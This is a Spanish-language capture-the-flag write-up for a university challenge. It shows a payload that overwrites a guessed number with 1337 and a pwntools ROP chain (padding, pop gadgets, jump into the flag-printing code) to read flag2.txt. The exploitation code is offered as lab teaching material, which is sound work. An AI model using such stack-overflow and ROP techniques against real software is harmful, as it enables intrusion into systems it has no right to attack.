


# UAM: Write-up del reto 2023-12_porropwnpwn

## Flag 1

La función calcula un número y pide al usuario que lo adivine. Hay un número concreto, 1337, que permite enviar un payload que puede sobrescribir el número pensado por la máquina. Se sobrescribe con el número 1337 en little endian, y así nos aseguramos de que se acierta siempre.

El payload hay que enviarlo cifrado en AES, con la clave que indica el servidor.

```python
v = 1337
plaintext= v.to_bytes(4, 'little')*8*4 * 2   # 256 bytes de payload
ciphertext = encrypt(key, plaintext)
```

## Flag 2

La funcion flag2 genera una contraseña o passphrase, que se deriva en un clave/key AES de 128bits, que es la que hay que usar para enviarle el payload. La idea es implementar esta función, teniendo en cuenta el uso de las funciones `srand` y `rand` de la libc, que no
son equivalentes 100% a las funciones de python_

```python
from ctypes import CDLL
libc = CDLL("libc.so.6")

libc.srand(1337)
print(libc.rand())
```

Sin embargo, es posible utilizar la función auxiliar `encrypt` (opción oculta 3) para ahorrarnos este cálculo. (Unintended por ser buena gente :))

Una vez tenemos clave AES, nos encontramos ante un reto ROP (return oriented programming), en la que se sobrescribe la pila, y la dirección de retorno. Se utilizan gadgets presentes en el binario (p.ej. `pop rax, ret`), para preparar los parámetros necesarios antes de saltar a las funciones necesarias (open/read, etc)

En el caso de este binario, existe la cadena `"flag2.txt\0"`, y podemos utilizar parte de la función que imprime la flag1:

```c
    if (guess == number) {
        printf("¡Has acertado! Aquí tienes tu flag:\n");
        fd = open("flag1.txt", 0);   // <<-- Saltamos a una dirección de memoria de esta linea, reemplazando rax con la 
                                     //      dirección del string flag2.txt, así no tenemos que implementar nada a mano.
        n = 1;
        while (n > 0) {
            n = read(fd, &msg, sizeof(msg));
            write(1, &msg, n);
        }
        fflush(stdout);
        printf("\n");

        close(fd);
```



El payload final queda así:

```python
payload = flat(
    b"A"*280,                   # Padding hasta llegar a RIP
    pop_rbp, exe.bss(0x100),    # Establecemos RBP a una dirección conocida (y escribible), 0x100 bytes dentro del BSS.
    pop_rax, flag2_str,         # RAX apunta a "flag2.txt"
    pop_rsi, 0,                 # RSI son las flags de open(), tienen que estar a 0
    print_flag,                 # Finalmente saltamos a print_flag, que será la instrucción 0x16a2 en la captura anterior.
)
```

Resultado:



### Nota

Es posible que el binario compilado sea distinto al publicado inicialmente en el servidor de retos, debido a limpieza de código no utilizado. Copiad el binario del reto al directorio donde tengais exploit.py, para que calcule bien los offsets.
